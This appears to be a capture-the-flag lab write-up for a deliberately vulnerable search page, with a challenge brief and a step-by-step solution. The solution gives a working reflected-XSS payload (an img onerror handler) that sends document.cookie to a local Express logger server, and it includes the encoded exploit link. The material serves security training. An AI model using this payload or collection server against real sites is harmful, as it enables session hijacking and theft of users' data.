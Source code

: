 # Web Exploitation (XSS)

## Challenge

### Incident Report #457

BananaCorp, a leading digital pastry delivery startup, recently reported suspicious activities on their customer portal. Our security team discovered their search functionality might be exposing sensitive customer data. Your mission is to verify this vulnerability.

**Target System**: [https://bananafish-node-xss-challenge.vercel.app](https://bananafish-node-xss-challenge.vercel.app)

### Mission Objectives

Security has tasked you with answering these critical questions:

1. How does BananaCorp's search system process special characters?
2. Could an attacker potentially harvest customer session data?
3. Demonstrate a proof-of-concept that exposes this vulnerability

### Intelligence Briefing

Our reconnaissance has uncovered these crucial details:

1. The search bar seems to reflect input directly into the page - look closely at how it handles HTML tags
2. Consider setting up a "catch station" (local server) to intercept any data you might discover. All field agents should be ready to receive intel
3. When testing the target system, remember: failed image loads trigger defensive protocols. This could be useful...

### Priority Level: HIGH

Our customers' dessert preferences must remain confidential! 

## Challenge Solution

### Vulnerable Site

[Link Live](https://bananafish-node-xss-challenge.vercel.app)

If there are no cookies in your browser's cookie jar, set some cookies using the following code in your browser's Console:

```js
document.cookie = "name=JohnDoe; SameSite=Script; path=/";
```

### Step 2: Create a Node Server

Create a Node server to log any valuable information obtained from the XSS attack.

```js
var express = require('express');
var app = express();

app.use(function(req, res, next) {
	res.header('Access-Control-Allow-Origin', '*');
	next();
});

app.get('/cookie', function(req, res, next) {
	console.log('GET /cookie');
	console.log(req.query.data);
	res.send('Thanks for Your Data (*_*)!');
});

app.listen(3001, function() {
	console.log('Logger Server listening at localhost:3001');
});
```

### Step 3: Run the Node Server Locally

Run the server locally with the following command:

```bash
# run the server locally
node logger-server.js
```

### Step 4: Exploit the XSS Vulnerability

Use the following HTML code with the XSS vulnerability to steal the session cookie:

```html
<!-- Actual HTML Code -->
<img src="does-not-exist" onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie; document.querySelector('body').appendChild(img);">
```

### Step 5: Encode the HTML Code

Encode the above HTML code and use it as the search query:

```js
encodeURIComponent('<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">');
```

Alternatively, you can use [this link](https://bananafish-node-xss-challenge.vercel.app/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement('img')%3B%20img.src%20%3D%20'http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D'%20%2B%20document.cookie%3B%20document.querySelector('body').appendChild(img)%3B%22%3E).

![Example 2](images/example-2.png)

### Step 6: Verify the Data

Check the terminal window of the evil server. If you can see the cookie data, then it's a win.

![Result](images/result.png)

---
---